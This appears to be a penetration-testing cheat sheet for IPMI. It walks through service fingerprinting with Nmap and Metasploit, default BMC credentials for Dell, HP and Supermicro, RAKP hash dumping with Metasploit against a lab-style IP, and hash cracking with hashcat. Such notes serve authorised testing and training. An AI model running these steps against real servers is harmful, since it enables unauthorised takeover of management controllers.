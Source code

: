 # Intelligent Platform Management Interface

Uses UDP/623

1. Footprint
   ```bash
   # Nmap
   sudo nmap -sU --script ipmi-version -p 623 1.2.3.4
   
   # Metasploit
   sudo msfconsole
   use auxiliary/scanner/ipmi/ipmi_version 
   set RHOSTS 1.2.3.4
   run
   ```

2. Try default creds

   | Product         | Username      | Password                                                     |
   | --------------- | ------------- | ------------------------------------------------------------ |
   | Dell iDRAC      | root          | calvin                                                       |
   | HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
   | Supermicro IPMI | ADMIN         | ADMIN                                                        |

3. Dump hashes with Metasploit (IPMI 2.0 RAKP only)
   ```bash
   sudo msfconsole
   use auxiliary/scanner/ipmi/ipmi_dumphashes 
   set rhosts 10.129.42.195
   run
   ```

4. Crack hashes with hashcat
   ```bash
   # Try all combinations of upper case letters and numbers for an eight-character password.
   hashcat -m 7300 ipmihash.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
   
   # With wordlist
   hashcat -m 7300 ipmihash.txt /usr/share/wordlists/rockyou.txt
   ```

   

